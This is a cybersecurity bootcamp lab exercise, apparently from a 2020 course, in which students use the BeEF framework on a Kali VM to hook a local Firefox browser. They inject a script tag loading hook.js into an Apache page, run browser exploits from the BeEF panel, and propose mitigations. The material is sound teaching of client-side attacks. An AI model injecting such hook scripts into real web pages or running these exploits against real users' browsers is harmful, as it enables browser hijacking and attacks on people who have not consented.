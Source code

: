 ## Activity File: BEeF

- In this activity, you will play the role of a security analyst tasked with detecting vulnerabilities on your organization's network.

- Your organization only uses Firefox browsers.

- At the end of your test, you will have to include three mitigation strategies along with your results.


### Instructions

This activity use the Kali VM as both the attacker and the victim. 

1. Acting as the attacker,  open a terminal window in Kali and run `sudo beef-xss`.
- Make sure to copy the `<script src="http://127.0.0.1:3000/hook.js"></script>>` line from the beef-xss startup. 
   
     This window contains the malicious JavaScript that you will use to hook victim's browser.

     - What is the script?
            
2. Return to your terminal window, start the Apache web server.
      

3. Open the `/var/www/html/index.html` file and paste the malicious JavaScript. 
   
     
4. Open a web browser and click the **BeEF Authentication** shortcut in the shortcut toolbar. Sign in with:
      
      - Username: `beef`
      - Password: `cybersecurity`

   
5. Acting as the victim open Firefox browser on your Kali machine and navigate to `localhost` using the URL. 
  - If you have done this correctly you should see the landing page for the Apache2 template. 
  
![landing_page](./Images/landing_page.png)
      
After the page loads, return to the BeEF framework.
   
6. Acting as the attacker, click on **Commands** and perform at least three successful exploits of your choosing.
   
      - Document your findings and be prepared to share with the class.   
            
7. What mitigation strategies would you suggest to the client to defend against client-side attacks?

 
#### Bonus

Perform an attack that displays the message "You've been hacked!" when the victim revisits the malicious webpage.

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
